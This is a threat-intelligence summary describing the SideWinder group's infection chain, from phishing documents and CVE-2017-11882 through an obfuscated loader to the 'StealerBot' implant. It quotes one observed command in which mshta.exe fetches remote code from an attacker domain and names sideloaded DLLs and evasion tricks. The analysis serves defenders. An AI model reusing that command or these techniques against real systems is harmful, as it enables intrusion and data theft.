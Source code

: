 ![alt text](<images/The Feed 2025-03-12_3.png>)
SideWinder's attack chain begins with **spear-phishing emails containing malicious DOCX files**. These documents utilize the **remote template injection technique** to download a **malicious RTF file** from a server controlled by the attacker. The RTF file exploits the **CVE-2017-11882 vulnerability** to execute a malicious shellcode, initiating a multi-stage infection process.

The shellcode executes **embedded JavaScript code** that invokes the `mshtml.RunHTMLApplication` function. In the updated toolset, the JavaScript runs the **Windows utility `mshta.exe`** to retrieve additional code from a remote server. An example command observed is: `mshta.exe   https://dgtk.depo-govpk[.]com/19263687/trui`.

The downloaded HTA file contains **heavily obfuscated JavaScript** that loads the **"Downloader Module"** into memory. This JavaScript loader operates in two stages. The **first stage** decodes strings using a substitution algorithm and checks the installed RAM, terminating if it's less than 950 MB. The **second stage** enumerates subfolders in `Windows%\Microsoft.NET\Framework\` to determine the installed .NET framework version and sets the `COMPLUS_Version` environment variable accordingly. Finally, it decodes and loads the **Downloader Module**, which is embedded as a base64-encoded .NET serialized stream.

The **Downloader Module**, a .NET library, collects information about installed security solutions and downloads the **"Module Installer"**. A new version of `app.dll` (Downloader Module) employs a more sophisticated method for identifying security solutions. Instead of a simple WMI query, it now uses a different WMI to collect the antivirus name and its "productState". Additionally, it compares running process names against an embedded dictionary of 137 process names associated with popular security solutions. The WMI query is only executed if no Kaspersky processes are running.

The infection chain culminates in the installation of **"Backdoor Loader"**, a library sideloaded using legitimate and signed applications. Its primary function is to load the **"StealerBot"** implant into memory. While "StealerBot" remained unchanged, numerous variants of "Backdoor Loader" have been distributed. Previously, it was designed to be loaded by `propsys.dll` or `vsstrace.dll`. Recent campaigns have seen variants distributed under names such as `JetCfg.dll`, `policymanager.dll`, `winmm.dll`, `xmllite.dll`, `dcntel.dll`, and `UxTheme.dll`. These newer variants feature enhanced anti-analysis code and extensive use of Control Flow Flattening to evade detection. A new **C++ version of "Backdoor Loader"** was also observed, with the same core logic as the .NET variants but lacking anti-analysis techniques. Notably, many C++ samples were tailored to specific targets, configured to load the second stage from a specific file path embedded in the code, including the user's name (e.g., `C:\Users\[REDACTED]\AppData\Roaming\valgrind\[REDACTED FILE NAME].[REDACTED EXTENSION]`). This suggests manual deployment after initial compromise.
